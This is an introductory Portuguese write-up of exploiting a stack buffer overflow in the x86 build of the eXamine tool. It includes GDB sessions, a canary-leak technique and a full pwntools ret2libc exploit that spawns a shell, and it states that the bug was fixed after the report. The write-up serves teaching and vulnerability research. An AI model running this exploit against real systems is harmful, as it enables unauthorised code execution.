



1523577600
Ou “pwning for dummies”
Mês passado o Fernando Mercês pediu pelo Twitter que reportássemos bugs em uma ferramenta dele. Como estava estudando pwning, imaginei que procurar por vulnerabilidades nos repositórios dele seria um bom desafio. ( ̶s̶o̶r̶r̶y̶ ̶m̶e̶r̶c̶ê̶s̶ )
Encontrei um Stack Buffer Overflow na tool eXamine e escrevi um exploit bypassando várias proteções “modernas” como o NX e o Canary.
Esse texto é um write up bem introdutório sobre essas proteções e como foi o processo de escrever o exploit com o pwntools para a arquitetura x86, depois soltarei outro texto para x64, também assumo que o leitor já tenha algum conhecimento sobre buffer overflows, Assembly e etc.
A vulnerabilidade foi consertada em tempo recorde de 2 dias.
Se você for um l33t0 apressado, o exploit tá lá embaixo.
Reprodução da função main do código vulnerável
int main(int argc, char *argv[]) {
int i;
char s[MAX_CMD_LINE], c;
memset(s, 0, MAX_CMD_LINE);
// Loop until Ctrl+C is pressed
for (i=0; ; i++) {
if ((c = getchar()) == EOF) // End Of File reached when reading from a pipe
break;
if (c == '\n') {
examine(s);
memset(s, 0, MAX_CMD_LINE);
i=-1;
putchar('\n');
}
s[i] = c;
}
return 0;
}
Note a linha 18, ela escreve um char na array “s” mas nunca checa se o “i” é maior do que o tamanho da array. Assim, podemos escrever o quanto quisermos na stack. Agora fica fácil de redirecionar a execução do programa para onde quisermos, é só colocar um shellcode na stack e executa-lo, certo ?
Errado ( ̶o̶t̶á̶r̶i̶o̶!̶), o problema é que essa vulnerabilidade já tem mais de 40 anos, e com o tempo os sistemas operacionais foram implementando várias proteções que dificultam enormemente a exploração.
Utilizando o checksec conseguimos verificar todas as proteções no nosso binário: Canary; RELRO e NX — Eu desabilitei o ASLR da minha máquina, porque ̶s̶o̶u̶ ̶n̶0̶0̶b̶ ativado faria com que as alocações de memória fossem aleatórias, tentarei fazer um exploit para bypassar ele também no futuro.
$ checksec examine32
\[\*\] ‘/home/vagrant/host/CTF/mentebinaria/examine/examine32’
Arch: i386–32-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x8048000)
FORTIFY: Enabled
Também conhecido como NX, essa proteção determina quais áreas da memória poderão ser executadas. Impedindo assim, que o atacante coloque seu payload malicioso na Stack e o execute com alguma vulnerabilidade. Existem inúmeras maneiras de evitar essa proteção, neste exploit eu usei o _ret2libc — _recomendo a leitura do primeiro artigo sobre o assunto.
A idéia principal do ret2libc é que ao invés de redirecionarmos a execução do programa para o nosso payload na stack, vamos executar algo da libc como um system(“/bin/sh”) por exemplo. Para fazermos isso precisamos passar argumentos para a função. No x86 os argumentos ficam na stack, então temos que prepará-la de acordo com o que quisermos fazer. No caso nossa stack terá que se parecer com essa :

Então temos que descobrir os endereços. Para fazer isso podemos utilizar o GDB com o peda. Descobrindo os endereços de exit e de system na libc:
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e19e70 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e0cf50 <exit>
Também precisamos encontrar o endereço da string “/bin/sh” :
gdb-peda$ find “/bin/sh”
Searching for ‘/bin/sh’ in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f39fcc (“/bin/sh”)
Importante notar que é necessário saber qual a versão do libc na máquina alvo para encontrar as funções desejadas (system por exemplo), calculando os offsets através do endereço base de memória alocada para libc. Pois os offsets se diferenciam entre as versões. Aqui tem uma database de versões para ajudar a encontrar : github.com/niklasb/libc-database — Discutirei isso mais a fundo no próximo post.
Vamos começar o esboço do nosso exploit.
from pwn import *
p = process("./examine32")
system = 0xf7e19e70
exit = 0xf7e0cf50
bash = 0xf7f39fcc
offset = ???
exploit = "A"*offset+p32(system)+p32(exit)+p32(bash)+"\xff"
p.sendline(exploit)
p.interactive()
Abrimos o processo, declaramos os endereços, montamos o payload e adicionamos o 0xff para servir de EOF — Vide linha 9 do código, precisamos do EOF para atingirmos o return.
Mas ainda não sabemos o offset, vamos descobri-lo usando o GDB :
Leia os # , são meus comentários.
$ gdb ./examine32
\[... cortado\]
gdb-peda$ pattern\_create 2000 pat
Writing pattern of 2000 chars to filename “pat”
\# Primeiro criamos um arquivo "pat" de tamanho 2000 com um pattern para podermos identificar exatamente o offset
gdb-peda$ r < pat # rodando o programa com o arquivo pat
Starting program: /home/vagrant/host/CTF/mentebinaria/examine/examine32 < pat
Program received signal SIGSEGV, Segmentation fault.
\# Recebemos um SIGSEGV, vamos analizar por que.
\[... cortado\]
\[ — — — — — — — — — — — — — — — — — — -code — — — — — — — — — — — -\]
0xf7e0c5cb <getenv+107>: mov esi,DWORD PTR \[ebp+0x0\]
0xf7e0c5ce <getenv+110>: test esi,esi
0xf7e0c5d0 <getenv+112>: je 0xf7e0c62a <getenv+202>
\=> 0xf7e0c5d2 <getenv+114>: cmp di,WORD PTR \[esi\] # por algum motivo o binário foi parar em getenv e bugou pois o valor de ESI foi sobrescrito
\[... cortado\]
gdb-peda$ bt # vamos checar com o backtrace porque o binário foi parar em getenv
#0 0xf7e0c5d2 in getenv () from /lib32/libc.so.6
#1 0xf7e4230b in ?? () from /lib32/libc.so.6
#2 0xf7ed5c9b in \_\_fortify\_fail () from /lib32/libc.so.6
#3 0xf7ed5c2a in \_\_stack\_chk\_fail () from /lib32/libc.so.6 # Opa ,o que é isso ?
#4 0x08048767 in main ()
Recebemos um SIGSEGV pois o binário chamou __stack_chk_fail, vamos fazer uma breve análise no IDA para entendermos porque ele foi parar lá.

Na seta 1 ele compara o nosso input com 0xff , isso corresponde a linha 9 do main, onde ele compara com EOF e que resulta no return. Mas antes de ir para o return ele vai para seta 2 onde ele compara um valor da stack “$esp+3FCh” com outro um valor “$gs:14h” e checa se são iguais, caso não forem ele chama a função __stack_chk_fail, que causou o erro.
Isto é chamado de Canary, ou stack cookie, um valor randômico que o programa conhece que é colocado na stack e antes de fazer um return é checado se ele foi alterado. Nosso problema é que para fazermos o ret2libc, ou qualquer outra técnica de buffer overflow, vamos acabar sobrescrevendo o Canary. Então para bypassa-lo precisamos conhecer o seu valor.
Mas antes de tentarmos descobrir o valor, precisamos ainda descobrir o offset correto. Para isso, voltemos ao GDB. Vamos basicamente ignorar a checagem do Canary e ver o que acontece.
Leia os # , são meus comentários.
$ gdb ./examine32
gdb-peda$ disas main
\# Vamos encontrar onde ele faz a checagem que vimos no IDA
Dump of assembler code for function main:
\[... cortado\]
0x08048748 <+152>: xor eax,eax # É aqui onde começa o a checagem do Canary
0x0804874a <+154>: mov esi,DWORD PTR \[esp+0x3fc\]
0x08048751 <+161>: xor esi,DWORD PTR gs:0x14
0x08048758 <+168>: jne 0x8048762 <main+178>
0x0804875a <+170>: lea esp,\[ebp-0xc\]
0x0804875d <+173>: pop ebx
0x0804875e <+174>: pop esi
0x0804875f <+175>: pop edi
0x08048760 <+176>: pop ebp
0x08048761 <+177>: ret
0x08048762 <+178>: call 0x80485e0 <\_\_stack\_chk\_fail@plt>
End of assembler dump.
gdb-peda$ b \* main+161 # colocando um breakpoint para logo antes do jne
Breakpoint 1 at 0x8048751
gdb-peda$ r < pat # executando o programa
\[... cortado\]
\[ — — — — — — — — — — — — — -code — — — — — — — — — — — — — — — — -\]
0x8048741 <main+145>: lea esi,\[esi+eiz\*1+0x0\]
0x8048748 <main+152>: xor eax,eax
0x804874a <main+154>: mov esi,DWORD PTR \[esp+0x3fc\]
\=> 0x8048751 <main+161>: xor esi,DWORD PTR gs:0x14
0x8048758 <main+168>: jne 0x8048762 <main+178>
0x804875a <main+170>: lea esp,\[ebp-0xc\]
0x804875d <main+173>: pop ebx
0x804875e <main+174>: pop esi
\[ — — — — — — — — — — —— — — stack — — — — — — — — — — — — — — — -\]
\[... cortado\]
Breakpoint 1, 0x08048751 in main () # atingimos o breakpoint
gdb-peda$ s # indo para o jne
\[... cortado\]
\[ — — — — — — — — — — — — — — — — -code — — — — —— — — — — — — — -\]
0x8048748 <main+152>: xor eax,eax
0x804874a <main+154>: mov esi,DWORD PTR \[esp+0x3fc\]
0x8048751 <main+161>: xor esi,DWORD PTR gs:0x14
\=> 0x8048758 <main+168>: jne 0x8048762 <main+178>
| 0x804875a <main+170>: lea esp,\[ebp-0xc\]
| 0x804875d <main+173>: pop ebx
| 0x804875e <main+174>: pop esi
| 0x804875f <main+175>: pop edi
|-> 0x8048762 <main+178>: call 0x80485e0 <\_\_stack\_chk\_fail@plt>
0x8048767 <\_start>: xor ebp,ebp
0x8048769 <\_start+2>: pop esi
0x804876a <\_start+3>: mov ecx,esp
JUMP is taken
\[... cortado\]
0x08048758 in main ()
gdb-peda$ j \* main+170 # dando um jump para 0x804875a, ignorando o jne
Continuing at 0x804875a.
Program received signal SIGSEGV, Segmentation fault.
\[ — — — — — — — —— — — — — registers — — — — — — — — — — — — — — -\]
EAX: 0x0
EBX: 0x6e41246e (‘n$An’)
ECX: 0xf7f858a4 → 0x0
EDX: 0xffffffff
ESI: 0x436e416e (‘nAnC’)
EDI: 0x412d6e41 (‘An-A’)
EBP: 0x6e41286e (‘n(An’)
ESP: 0xffffd650 (“An)AnEAnaAn0AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAni
An8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnoAnSAnpAnTAnqAnUAnrAnVAntAnWAnuAnXAnvAnYAnwAnZA
nxAnyAnzAC%ACsACBAC$ACnACCAC-AC(ACDAC”…)
EIP: 0x3b6e4144 (‘DAn;’) # EIP sobrescrito
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
\[ — — — — — — — — — — — — — -code — — — — — — — — — — — — — — — -\]
Invalid $PC address: 0x3b6e4144
\[... cortado\]
Stopped reason: SIGSEGV
0x3b6e4144 in ?? ()
gdb-peda$ pattern\_offset “DAn;” # procurando o offset de “DAn;”
DAn; found at offset: 1032 # achamos o offset
Precisamos de alguma forma ler o conteúdo do Canary para coloca-lo certo na stack.
Depois de receber um input o programa executa o código abaixo, que transforma a array para URL Encoding.
for (i=0; i < strlen(s); i++)
printf("%%%2X", s\[i\]);

Essa é a stack normal do programa, com o Canary logo depois da array que estamos sobrescrevendo. Note os bytes nulos no final dos dois.
Uma string, sendo uma array de chars, tem seu término delimitado pelo byte nulo. Se sobrescrevermos apenas o nullbyte da string “s” o strlen continuará contando até encontrar o outro nullbyte do Canary, assim, conseguiremos printar o valor do Canary.
Segue :
$ python -c “print ‘A’\*1001” > aaa # 1001 é o tamanho da array
$ ./examine32 < aaa
\[... cortado\]
URL encoding: %41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%FFFFFF9C%FFFFFFCF%FFFFFFD3%FFFFFFC4%43%FFFFFFF8%FFFFFFF7
Conseguimos assim ler os valores do Canary, depois temos apenas que montar a stack com o valor dele para não cairmos no __stack_chk_fail.
E o exploit final :
from pwn import *
p = process("./examine32")
offset = 1032 # offset para sobrescrever o EIP
read_canary_payload = "A"*1001 # sobrescrevendo o nullbyte para leakar o valor do Canary
p.sendline(read_canary_payload)
canary = p.recvuntil("Timestamp").split("%")
canary = [canary[i][-2:] for i in range(-7,0)][:3] # Lendo o output
canary = [x.replace(" ","0") for x in canary] # o zero buga o printf
print "[!] Canary found : "+str(canary)
canary = int(''.join(canary),16)
system = 0xf7e19e70
exit = 0xf7e0cf50
bash = 0xf7f39fcc
exploit = "A"*1000+p32(canary)[::-1]+"\x00" # o canary acaba com nullbyte
exploit += ("A"*(offset-len(exploit)))+p32(system)+p32(exit)+p32(bash)+"\xff" # 0xff = EOF
p.sendline(exploit)
p.interactive() # g0t sh3ll ?
Como em x64 os argumentos ficam nos registradores, precisaremos fazer mais coisa antes de chamar o system, esse será o tópico do próximo post.
Inté !